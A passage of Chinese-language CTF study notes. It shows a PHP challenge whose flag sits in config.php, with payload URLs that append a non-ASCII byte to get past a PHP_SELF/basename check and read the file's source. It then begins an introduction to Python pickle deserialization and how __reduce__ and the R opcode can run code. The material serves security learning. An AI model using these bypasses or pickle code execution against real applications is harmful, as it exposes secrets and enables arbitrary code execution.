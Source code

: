 一道例题源码:

```
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}
```

payload:

```
…/index.php/config.php/%ff?source
…/index.php/config.php/%a1?source
…/index.php/config.php/%df?source
```

上面的payload随便哪一个都可以，**主要是保证config.php后面必须是非ascii值就可以了**



## pickle反序列化

### pickle简介

- 与PHP类似，python也有序列化功能以长期储存内存中的数据。pickle是python下的序列化与反序列化包。
- python有另一个更原始的序列化包marshal，现在开发时一般使用pickle。
- 与json相比，pickle以二进制储存，不易人工阅读；json可以跨语言，而pickle是Python专用的；pickle能表示python几乎所有的类型（包括自定义类型），json只能表示一部分内置类型且不能表示自定义类型。
- pickle实际上可以看作一种**独立的语言**，通过对opcode的更改编写可以执行python代码、覆盖变量等操作。直接编写的opcode灵活性比使用pickle序列化生成的代码更高，有的代码不能通过pickle序列化得到（pickle解析能力大于pickle生成能力）。

### 可序列化的对象

- `None` 、 `True` 和 `False`
- 整数、浮点数、复数
- str、byte、bytearray
- 只包含可封存对象的集合，包括 tuple、list、set 和 dict
- 定义在模块最外层的函数（使用 def 定义，lambda 函数则不可以）
- 定义在模块最外层的内置函数
- 定义在模块最外层的类
- `__dict__` 属性值或 `__getstate__()` 函数的返回值可以被序列化的类（详见官方文档的Pickling Class Instances）

### `object.__reduce__()` 函数

- 在开发时，可以通过重写类的 `object.__reduce__()` 函数，使之在被实例化时按照重写的方式进行。具体而言，python要求 `object.__reduce__()` 返回一个 `(callable, ([para1,para2...])[,...])` 的元组，每当该类的对象被unpickle时，该callable就会被调用以生成对象（该callable其实是构造函数）。
- 在下文pickle的opcode中， `R` 的作用与 `object.__reduce__()` 关系密切：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。其实 `R` 正好对应 `object.__reduce__()` 函数， `object.__reduce__()` 的返回值会作为 `R` 的作用对象，当包含该函数的对象被pickle序列化时，得到的字符串是包含了 `R` 的。
